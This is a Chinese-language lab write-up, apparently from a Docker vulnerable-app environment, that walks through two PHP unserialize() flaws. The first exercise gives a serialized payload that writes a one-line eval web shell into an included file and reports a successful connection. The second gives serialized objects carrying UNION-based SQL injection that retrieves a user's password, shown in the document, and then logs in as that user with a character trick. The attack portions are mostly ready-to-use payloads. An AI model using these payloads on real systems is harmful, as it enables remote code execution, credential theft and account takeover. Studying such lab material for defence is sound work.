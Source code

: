 # 反序列化漏洞1

### 代码分析：

1. **代码结构**：

   ```php
   require_once('../../header.php');
   ```

   这行代码引入了页面的头部部分，通常是 HTML 标题、头部资源（如 CSS、JS）等内容。

   ```php
   class a {
       var $test = 'hello';
       function __destruct(){
           $fp = fopen("/var/www/html/vuln/unserialize/01/hello.php", "w");
           fputs($fp, $this->test);
           fclose($fp);
       }
   }
   ```

   - 这里定义了一个类 `a`，它有一个属性 `$test`，默认为 `'hello'`。
   - 在类的析构方法 `__destruct()` 中，代码会将 `$test` 的值写入到 `/var/www/html/vuln/unserialize/01/hello.php` 文件中。
   - 当对象销毁时（即当脚本结束或对象被销毁时），`__destruct()` 方法会被调用，导致 `$test` 的值（'hello'）被写入文件。

   ```php
   $class = stripslashes($_GET['re']);
   $class_unser = unserialize($class);
   ```

   - 这里的代码从 GET 请求参数 `re` 中获取数据，并调用 `unserialize()` 函数对其进行反序列化操作。
   - `stripslashes()` 函数用来移除反斜杠，它通常用于防止 SQL 注入等攻击中的转义字符干扰。

   ```php
   require '/var/www/html/vuln/unserialize/01/hello.php';
   ```

   - `require` 会引入 `hello.php` 文件。这意味着如果文件 `hello.php` 被写入了恶意内容（如恶意 PHP 代码），它将被执行。
   - 由于反序列化漏洞，可以通过构造特定的输入，使得文件包含恶意代码，执行任意操作。
   
   进入docker里面的bash
   
   ```
   docker ps -a 找容器id
   docker exec -it bc23a49cb37c bash
   ```

这里查看到源码的路径是有问题的

![image-20250916192453286](images/image-20250916192453286.png)

修改源码

![image-20250916192903939](images/image-20250916192903939.png)

```
?re=O:1:"a":1:{s:4:"test";s:26:"<?php @eval($_POST[cmd])?>";}   尝试插入一句话
```

插入成功

![image-20250916193126712](images/image-20250916193126712.png)

连接成功

![image-20250916193555465](images/image-20250916193555465.png)

# 反序列化漏洞2

这段 PHP 代码存在反序列化漏洞，具体分析如下：

### 代码分析：

#### 1. 类定义：`WEB` 类

```php
class WEB {
    private $method;
    private $args;
    private $conn;

    public function __construct($method, $args) {
        $this->method = $method;
        $this->args = $args;
        $this->__conn();
    }
```

`WEB` 类有三个私有属性：

- `$method`: 方法名
- `$args`: 方法的参数
- `$conn`: 数据库连接

构造函数 `__construct()` 会接受 `$method` 和 `$args`，并调用 `__conn()` 连接数据库。

#### 2. `__destruct()` 方法

```php
function __destruct() {
    $this->__conn();

    if (in_array($this->method, array("show", "login", "source"))) {
        @call_user_func_array(array($this, $this->method), $this->args);
    } else {
        $this->__die("What do you do?");
    }

    $this->__close();
}
```

`__destruct()` 方法在对象销毁时执行：

- 连接数据库（`__conn()`）。
- 根据 `$this->method` 调用相应的类方法，并传入 `$this->args` 作为参数（使用 `call_user_func_array()`）。
- 如果 `method` 不是 `show`, `login`, 或 `source`，会返回一个错误消息。
- 最后关闭数据库连接。

#### 3. `__wakeup()` 方法

```php
function __wakeup() {
    foreach($this->args as $k => $v) {
        $this->args[$k] = strtolower(trim(mysql_escape_string($v)));
    }
}
```

`__wakeup()` 方法在对象反序列化时调用，它会对 `$args` 数组中的每个元素进行 `strtolower()` 和 `mysql_escape_string()` 处理，这可以用来绕过某些字符的限制。

#### 4. 反序列化触发

```php
if(isset($_GET["data"])) {
    @unserialize($_GET["data"]);
} else {
    new WEB("source", array());
}
```

如果 `GET` 请求中包含 `data` 参数，它会调用 `unserialize()` 对其进行反序列化。这就意味着通过 `data` 参数，攻击者可以传递序列化数据，构造一个包含恶意代码的对象。

### 漏洞利用：



#### 1. **构造恶意数据**

攻击者需要构造一个恶意的序列化对象，该对象的 `method` 属性为 `login`，并且传递适当的参数以触发登录过程。

**恶意 payload**：

```php
?data=O:3:"WEB":2:{s:11:"%00WEB%00method";s:4:"show";s:9:"%00WEB%00args";a:1:{i:0;s:83:"ljn' union select password,password,password from users where username='orange' -- ";}}
```

### ![image-20250916193902804](images/image-20250916193902804.png)

```
?data=O:3:"WEB":3:{s:11:"%00WEB%00method";s:4:"show";s:9:"%00WEB%00args";a:1:{i:0;s:83:"ljn' union select password,password,password from users where username='orange' -- ";}}
```

![image-20250916194546016](images/image-20250916194546016.png)

```
查到了orange的密码是  mall123mall
```

因为登录会对请求体反序列化，所以先对登录请求体序列化

![image-20250916195045464](images/image-20250916195045464.png)

```
?data=O:3:"WEB":2:{s:11:"%00WEB%00method";s:5:"login";s:9:"%00WEB%00args";a:2:{s:8:"username";s:7:"orÃnge";s:8:"password";s:11:"mall123mall";}}
```

![image-20250916194509776](images/image-20250916194509776.png)